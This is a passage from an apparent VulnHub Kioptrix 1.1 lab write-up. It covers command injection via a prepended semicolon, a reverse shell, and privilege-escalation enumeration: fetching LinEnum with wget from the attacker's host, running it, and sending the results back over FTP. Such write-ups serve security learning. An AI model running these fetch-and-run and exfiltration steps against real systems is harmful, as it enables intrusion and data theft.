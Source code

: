 Well that was easy... by simply prepending `;` to our input, we can execute uer-defined code. Knowing this, it's trivial to get a reverse shell using a [cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

![Getting our reverse shell](/assets/images/VulnHub/Kioptrix1.1_7.PNG)

# Privilege Escalation

Time to enumerate. Let's start by executing [LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to gather information about the host.

I'll download the script and host it on a local HTTP server using Python:

`sudo python -m SimpleHTTPServer 80`

Then on my compromised host:

```bash
cd /tmp
mkdir tmppp
cd tmppp
wget http://<my IP>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh >> lol.txt
```

The output's a little messy, so let's push `lol.txt` (the results) back to my Kali box using FTP. 

{: .box-warning}
**Note:** if you're on a busy network with other people (i.e. HackTheBox networks) you'll want to utilize an alternate method to transfer files. Since this is a home lab FTP is suitable.

#### Pushing the LinEnum output using FTP:

```bash
ftp <my IP>
Name: ...
Password: ...
put lol.txt
```

After reviewing, the first thing I notice is the Kernel version:

`Linux kioptrix.level2 2.6.9-55.EL`

Which is really old. Also it looks like we have `gcc` installed on the box.
